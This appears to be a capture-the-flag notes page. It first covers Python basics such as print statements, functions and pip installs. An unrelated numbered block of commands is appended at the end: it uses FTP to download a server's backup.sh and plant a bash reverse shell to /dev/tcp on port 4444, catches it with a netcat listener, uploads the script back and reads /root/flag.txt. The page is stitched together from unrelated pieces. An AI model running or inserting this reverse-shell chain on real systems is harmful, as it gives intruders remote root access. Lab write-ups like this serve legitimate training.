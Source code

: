 # There's a Python in my stocking!
## Topic and concepts
Python, Instaling and tooling, Hello world !, print(), "Hello, World!", 
Variables, Operators, Boolean, If statements, One line if statements, Loops, 
Libraries.<br>
* `python 3`
* `requests` library
* `beautifulsoup` library
* Pypi libraries database
## Walkthrough
Access the interactive editor for Python:
```
python3
```
Print on stdin:
```
print("Hello, World!")
```
Declare function:
```
def fct():
	print("Hello, World!")
```
String concatenation:
```
"Hello" + ", World!"
```
If statement:
```
if <smth>: <do-smth>
```
Install Python library:
```
pip install <x>
```
## Ressources
[Python Zero to Hero](https://polymath.cloud/python/): Python material #1<br>
[Automate The Boring Stuff with Python](https://automatetheboringstuff.com/): 
Python material #2<br>


9
ftp MACHINE_IP
cd public
get backup.sh backup.sh
vi backup.sh
bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
nc -lvnp 4444
put backup.sh backup.sh
cat /root/flag.txt
